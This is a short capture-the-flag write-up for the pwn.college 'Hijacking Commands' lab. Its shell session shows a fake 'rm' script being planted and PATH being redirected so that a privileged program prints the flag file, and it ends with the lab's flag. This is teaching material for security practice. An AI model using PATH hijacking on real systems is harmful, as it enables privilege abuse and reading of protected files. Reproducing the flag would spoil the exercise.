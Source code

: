 # Hijacking Commands

First made a directory using `mkdir solution`. Then made it my current directory using `cd solution` then because of the absolute path of `cat` being `/run/dojo/bin/cat` so I overrid `rm` with it. Making it `cat flag`.
Then made `rm` executable using `chmod a+rwx rm` (only x was needed lol idk why I did r and w too), Then modified PATH to the solution directory. Then just ran `/challenge/run` to get the flag `pwn.college{conPCjMaNyj5lyrVswCDKxobXab.ddzNyUDL4gjN0czW}`


```bash
hacker@path~hijacking-commands:~$ mkdir solution
hacker@path~hijacking-commands:~$ cd solution
hacker@path~hijacking-commands:~/solution$ echo "/run/dojo/bin/cat /flag" > rm
hacker@path~hijacking-commands:~/solution$ chmod a+rwx rm
hacker@path~hijacking-commands:~/solution$ PATH=/home/hacker/solution
hacker@path~hijacking-commands:~/solution$ /challenge/run
Trying to remove /flag...
pwn.college{conPCjMaNyj5lyrVswCDKxobXab.ddzNyUDL4gjN0czW}
```
